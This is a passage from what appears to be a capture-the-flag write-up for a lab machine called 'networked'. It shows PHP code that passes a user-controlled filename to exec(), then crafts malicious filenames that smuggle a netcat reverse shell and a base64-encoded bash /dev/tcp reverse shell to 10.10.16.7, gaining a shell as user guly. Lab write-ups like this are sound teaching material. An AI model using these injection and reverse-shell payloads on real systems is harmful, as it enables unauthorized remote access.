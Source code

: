 Then if the filename does not start with an IP it will execute the following, which is vulnerable to a command injection

```bash
exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
mail($to, $msg, $msg, $headers, "-F$value");

```

- `$value` (the filename) is **user-controlled -** we could upload a name with the command we want to execute e.g.:

```bash
test.jpg;nc -e sh 10.10.16.7 9001;
```

- Then when exec("rm -f $path$value") runs, it will execute our command.

First let’s start a listener

```bash
nc -lvnp 9001
```

Let’s go to /var/www/html/uploads and create a file with that name:

```bash
touch 'test.jpg;nc -e bash 10.10.16.7 9001;.php'
```

It connected but quits immediately:

![image.png]({{ site.baseurl }}/assets/networked/image%208.png)

Let’s try to base64 encode our payload and execute it like that, “/” is not allowed in a filename.

```bash
echo -n "bash -i >& /dev/tcp/10.10.16.7/9001 0>&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi43LzkwMDEgMD4mMQ==
```

Now our payload will be:

```bash
echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi43LzkwMDEgMD4mMQ== | base64 -d | bash

touch ';echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi43LzkwMDEgMD4mMQ== | base64 -d | bash;'
```

![image.png]({{ site.baseurl }}/assets/networked/image%209.png)

We now have guly shell.

Let’s go through simple checks:

```bash
sudo -l

User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh

```
